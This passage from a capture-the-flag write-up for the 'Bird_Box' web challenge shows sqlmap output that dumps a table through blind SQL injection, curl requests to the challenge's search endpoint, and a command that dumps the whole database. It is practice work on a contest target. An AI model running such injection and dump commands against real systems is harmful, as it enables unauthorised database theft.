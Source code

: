 ```console
[00:21:34] [INFO] fetching entries for table 'Search' in database 'SqliDB'
[00:21:34] [INFO] fetching number of entries for table 'Search' in database 'SqliDB'
[00:21:34] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[00:21:34] [INFO] retrieved: 3
[00:21:38] [INFO] retrieved: Aggies
[00:22:01] [INFO] retrieved: Eggs
[00:22:18] [INFO] retrieved: Trucks
Database: SqliDB
Table: Search
[3 entries]
+--------+
| items  |
+--------+
| Aggies |
| Eggs   |
| Trucks |
+--------+

[00:22:41] [INFO] table 'SqliDB.Search' dumped to CSV file '/root/.sqlmap/output/localhost/dump/SqliDB/Search.csv'
[00:22:41] [INFO] fetched data logged to text files under '/root/.sqlmap/output/localhost'

[*] shutting down at 00:22:41
```

So there are three items in the table: Aggies, Eggs and Trucks.

Searching for them indeed returns a response, instead of the regular error 500:

```console
root@kali:/media/sf_CTFs/tamu/Bird_Box# curl web2.tamuctf.com/Search.php?Search=Aggies
<html><head><style>img{ display: block; margin-left: auto; margin-right: auto; width: 75%; height: 75%;}h1{ text-align: center; }</style></head></br><h1>Aggies</h1></br><img src='Best_Aggie.png'>root@kali:/media/sf_CTFs/tamu/Bird_Box# curl web2.tamuctf.com/Search.php?Search=Eggs
<html><head><style>img{ display: block; margin-left: auto; margin-right: auto; width: 75%; height: 75%;}h1{ text-align: center; }</style></head></br><h1>Eggs</h1></br><img src='Happy_Eggs.png'>root@kali:/media/sf_CTFs/tamu/Bird_Box# curl web2.tamuctf.com/Search.php?Search=Trucks
<html><head><style>img{ display: block; margin-left: auto; margin-right: auto; width: 75%; height: 75%;}h1{ text-align: center; }</style></head></br><h1>Trucks</h1></br><img src='Best_Truck.png'>
```

I tried searching the images for some stego clues, with no success.

At last, I went back to the description, looking for clues:

> We've got Aggies, Trucks, and Eggs!

Well, it turns out that the path to Aggies, Trucks and Eggs should have been much shorter than the one I took. The answer must be hiding elsewhere.

With not much left to work with, I tried to dump the complete DB:

```console
root@kali:/media/sf_CTFs/tamu/Bird_Box# sqlmap -u "http://localhost:8000/?*" --dbms=MySQL --technique=B  --all
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 00:44:34
```